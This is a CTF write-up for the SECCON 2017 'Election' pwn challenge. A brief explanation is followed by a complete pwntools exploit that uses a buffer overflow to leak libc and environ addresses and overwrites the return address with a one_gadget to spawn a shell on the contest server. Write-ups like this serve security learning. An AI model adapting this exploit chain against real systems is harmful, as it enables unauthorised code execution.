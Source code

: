 ```yaml
---
layout: post
redirect_from:
  - /writeup/ctf/2017/seccon-2017-quals-election/
  - /blog/2017/12/10/seccon-2017-quals-election/
date: "2017-12-10T15:19:36+09:00"
tags: [ "ctf", "writeup", "seccon", "seccon-quals", "pwn", "buffer-overflow", "heap", "bruteforce" ]
"target_url": [ "https://ctftime.org/event/512/" ]
---
```


# SECCON 2017 Online CTF: Election

## solution

BOF and bruteforce.

There are a BOF at re-voting for `Ojima`.
This allows us to write anywhere and read somewhere.
Due to FULL RELRO, it's not the flag yet.
We want to get the libc (or heap) base addr.
But if you read the addr simply, then you lose the ability to write.
Here, you can use brutefoce to fix the head address, using $8192$ expected-trials, and get the flag.

## note

[zeosutt](https://twitter.com/zeosutt) and others read the binary and found base solution, and I made the flag using the brute-force attack.
I was faster a little, but he noticed the *neat* solution to get a head address.

## implementation

``` c++
#!/usr/bin/env python2
from pwn import * # https://pypi.python.org/pypi/pwntools
import argparse
parser = argparse.ArgumentParser()
parser.add_argument('host', nargs='?', default='election.pwn.seccon.jp')
parser.add_argument('port', nargs='?', default=28349, type=int)
parser.add_argument('--log-level', default='debug')
parser.add_argument('--binary', default='./election')
parser.add_argument('--libc', default='libc-2.23.so')
args = parser.parse_args()
context.log_level = args.log_level
context.binary = args.binary
elf = ELF(args.binary)
libc = ELF(args.libc)

def solve(p):
    def add(addr, value):
        p.sendlineafter('>> ', '2')
        p.sendlineafter('Show candidates? (Y/n) ', 'n')
        p.sendlineafter('candidate.\n>> ', 'Oshima')
        p.sendlineafter('re-vote?\n>> ', 'yes'.ljust(0x20, '\0') + p64(addr - 0x10) + chr(value))
    def write(addr, s):
        for i, c in enumerate(s):
            for value in [ ord(c) / 2, (ord(c) + 1) / 2 ]:  # to avoid to be nagative
                if value:
                    add(addr + i, value)

    heap_base = 0x0162b000  # fixed
    # heap_base = input()
    # log.info('heap base: %#x', heap_base)

    # make a candidate structure, whose name is `got.__libc_start_mai` and next_candidate is the `list`
    p.sendlineafter('>> ', '1')
    p.sendlineafter('name.\n>> ', '\0')
    write(heap_base + 0xf0, p64(elf.got['__libc_start_main']) + p64(heap_base + 0x90))
    add(elf.symbols['list'], 0x20)
    log.info('%#x', elf.got['__libc_start_main'])

    # read the libc base
    p.sendlineafter('>> ', '2')
    p.sendlineafter('Show candidates? (Y/n) ', 'Y')
    p.recvuntil('Candidates:\n* ')
    libc_base = u64(p.recvline()[: -1].ljust(8, '\0')) - libc.symbols['__libc_start_main']
    p.sendlineafter('candidate.\n>> ', 'NAME')
    log.info('libc base: %#x', libc_base)

    # read the environ
    write(heap_base + 0x10, p64(libc_base + libc.symbols['environ'] - (heap_base + 0x30)))
    p.sendlineafter('>> ', '2')
    p.sendlineafter('Show candidates? (Y/n) ', 'Y')
    p.recvuntil('* Shinonome\n* ')
    environ = u64(p.recvline()[: -1].ljust(8, '\0'))
    p.sendlineafter('candidate.\n>> ', 'NAME')
    log.info('environ: %#x', environ)
    ret_addr = environ - 240
    log.info('return addr: %#x', ret_addr)

    # attack
    one_gadget = 0xf1117
    write(ret_addr, p64(one_gadget - (libc.symbols['__libc_start_main'] + 240)))
    p.sendlineafter('>> ', '0')

    time.sleep(1)
    p.sendline('id')

for iteration in range(10000):
    log.info('iteration: %d', iteration)
    try:
        with remote(args.host, args.port) as p:
            solve(p)
            p.interactive()
            break
    except EOFError:
        pass

```
